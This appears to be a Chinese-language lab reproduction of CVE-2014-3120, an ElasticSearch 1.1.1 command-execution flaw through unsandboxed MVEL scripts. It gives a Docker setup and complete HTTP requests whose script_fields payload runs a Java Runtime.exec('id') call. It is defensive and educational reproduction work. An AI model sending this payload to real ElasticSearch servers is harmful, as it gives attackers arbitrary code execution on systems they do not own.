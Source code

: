 （CVE-2014-3120）ElasticSearch 命令执行漏洞
===========================================

一、漏洞简介
------------

老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。

二、漏洞影响
------------

elasticsearch版本：v1.1.1

三、复现过程
------------

编译及运行环境：

    docker-compose build
    docker-compose up -d

将Java代码放入json中：

    {
        "size": 1,
        "query": {
          "filtered": {
            "query": {
              "match_all": {
              }
            }
          }
        },
        "script_fields": {
            "command": {
                "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
            }
        }
      }

首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    {
      "name": "phithon"
    }

然后，执行任意代码：

    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 343

    {
        "size": 1,
        "query": {
          "filtered": {
            "query": {
              "match_all": {
              }
            }
          }
        },
        "script_fields": {
            "command": {
                "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
            }
        }
    }

结果如图：

![](resource/(CVE-2014-3120)ElasticSearch命令执行漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/CVE-2014-3120/
